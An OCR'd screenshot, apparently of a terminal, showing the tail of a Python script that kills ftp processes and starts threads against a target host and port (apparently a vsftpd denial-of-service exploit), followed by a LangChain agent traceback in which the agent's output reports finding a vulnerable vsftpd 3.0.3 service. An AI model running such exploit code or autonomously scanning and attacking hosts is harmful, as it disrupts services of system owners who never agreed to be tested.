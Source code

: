         start = time.time()                                                                                         
        while 1:                                                                                                    
                if start < time.time() + float(900): pass                                                           
                else:                                                                                               
                        subprocess.Popen("pkill ftp", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)   
                        t = threading.Thread(target=loop, args=(target, port,))                                     
                        t.start()                                                                                   
                        break                                                                                       
                                                                                                                    
main()                                                                                                              
                                                                                                                    
                                                                                                                    
Thought:Traceback (most recent call last):
  File "/home/kali/.local/lib/python3.9/site-packages/langchain/agents/chat/output_parser.py", line 21, in parse
    action = text.split("```")[1]
IndexError: list index out of range

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/home/kali/Desktop/main.py", line 26, in <module>
    response = self_ask_with_search.run(user_prompt)
  File "/home/kali/.local/lib/python3.9/site-packages/langchain/chains/base.py", line 238, in run
    return self(args[0], callbacks=callbacks)[self.output_keys[0]]
  File "/home/kali/.local/lib/python3.9/site-packages/langchain/chains/base.py", line 142, in __call__
    raise e
  File "/home/kali/.local/lib/python3.9/site-packages/langchain/chains/base.py", line 136, in __call__
    self._call(inputs, run_manager=run_manager)
  File "/home/kali/.local/lib/python3.9/site-packages/langchain/agents/agent.py", line 904, in _call
    next_step_output = self._take_next_step(
  File "/home/kali/.local/lib/python3.9/site-packages/langchain/agents/agent.py", line 748, in _take_next_step
    raise e
  File "/home/kali/.local/lib/python3.9/site-packages/langchain/agents/agent.py", line 741, in _take_next_step
    output = self.agent.plan(
  File "/home/kali/.local/lib/python3.9/site-packages/langchain/agents/agent.py", line 426, in plan
    return self.output_parser.parse(full_output)
  File "/home/kali/.local/lib/python3.9/site-packages/langchain/agents/chat/output_parser.py", line 26, in parse
    raise OutputParserException(f"Could not parse LLM output: {text}")
langchain.schema.OutputParserException: Could not parse LLM output: Based on the results of the various tools I used, it appears that the target has an open FTP port running vsftpd 3.0.3, which has a known remote denial of service vulnerability. However, I did not find
